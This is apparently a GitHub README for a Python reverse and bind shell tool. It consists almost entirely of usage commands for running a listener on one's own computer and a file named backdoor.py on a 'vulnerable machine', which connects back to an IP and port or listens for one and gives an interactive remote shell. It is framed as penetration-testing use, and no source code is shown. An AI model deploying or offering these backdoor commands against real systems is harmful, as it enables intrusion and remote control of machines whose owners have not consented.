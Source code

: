 Python Reverse-Bind Shell
Usage:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT>                 (reverse shell)(own computer)
        >>./backdoor.py --c <IP> <PORT>         (connect mode)(vulnerable machines for penetration testing)
         >> Interactive shell to check >> use command 'shell_check'
<img src="https://preview.ibb.co/kT9JLz/1.png">
<img src="https://preview.ibb.co/hjc50z/2.png">

        
        OR              OR              OR
        
        >>./backdoor.py --l <PORT>              (listen mode)(vulnerable machines for penetration testing)
        >>./akhyls.py -B <IP> <PORT>            (bind shell)(own computer)
         >> Interactive shell to check >> use command 'shell_check'

<img src="https://image.ibb.co/hiwLYK/Screen_Shot_08_20_18_at_04_52_PM.png">      
<img src="https://preview.ibb.co/b3ffYK/Screen_Shot_08_20_18_at_04_52_PM_001.png">

